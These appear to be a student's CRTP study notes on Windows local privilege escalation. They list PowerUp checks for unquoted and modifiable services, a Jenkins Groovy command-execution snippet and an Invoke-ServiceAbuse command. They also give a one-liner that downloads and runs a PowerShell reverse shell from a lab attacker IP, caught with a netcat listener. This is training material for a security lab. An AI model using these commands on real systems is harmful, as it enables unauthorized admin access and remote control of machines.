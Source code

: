 ```yaml
---
title: "2 - Win Privesc"
classes: single
header:  
  teaser: /assets/images/posts/crtp/crtp-teaser3.jpg
  overlay_image: /assets/images/main/header21jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Unquoted Paths and Modifiable Services"
description: "Unquoted Paths and Modifiable Services"
categories:
  - notes
  - crtp
tags:
  - begginer
  - AD
  - Windows 
toc: true
---
```


# Win Privesc - Local

> The material of CRTP about Local Privesc is not great

**There are various ways of locally escalating privileges on Windows box**:
```powershell
– Missing patches
– Automated deployment and AutoLogon passwords in clear text
– AlwaysInstallElevated (Any user can run MSI as SYSTEM)
– Misconfigured Services
– DLL Hijacking and more
– NTLM Relaying a.k.a. Won't Fix
```

**We can use below tools for complete coverage**:

[PowerSploit - Privesc Module](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

[Privesc on GitHub](https://github.com/enjoiz/Privesc)

[winPEAS in PEASS-ng](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)


## Services Issues using PowerUp

**Get services with unquoted paths and a space in their name**:
```powershell
Get-ServiceUnquoted -Verbose
```

**Get services where the current user can write to its binary path or change arguments to the binary**:
```powershell
Get-ModifiableServiceFile -Verbose
```

**Get the services whose configuration current user can modify**:
```powershell
Get-ModifiableService -Verbose
```

**Run all checks with automated tools** :
```powershell
– PowerUp
	Invoke-AllChecks
– Privesc:
	Invoke-PrivEsc
– PEASS-ng:
	winPEASx64.exe
```

## Feature Abuse
```
- If you have Admin access (default installation before 2.x), go to http://<jenkins_server>/script
- In the script console, Groovy scripts could be executed.
```

```powershell
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '
[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

If you don't have admin access but could add or edit build steps in the build configuration. Add a build step, add "Execute Windows Batch Command" and enter:
```powershell
powershell -c <command>
```

> Again, you could download and execute scripts, run encoded scripts and more.


**Learning Objective 5**:

- Exploit a service and elevate privileges to local administrator.
- Identify a machine in the domain where ur user has local administrative access.
- Using privileges of a user on Jenkins get admin privileges on another server.


**[easy to detect]**
```powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -Username dcorp\studentx -Verbose
net localgroup Administrators
```

**[easy to detect - noise]**
```powershell
Find-PSRemotingLocalAdminAccess
```

```powershell
on Jenkins> powershell iex (iwr -UseBasicParsing http://172.16.100.1/Invoke-PowerShellTcp.ps1); power -Reverse -IPAddress 172.16.100.1 -Port 443

on Attacker> host the file in a webserver - example: HFS - HTTP File Server 
```

disable firewall or add exception
```powershell
on Attacker> netcat-win32-1.12.exe -lvp 443
```

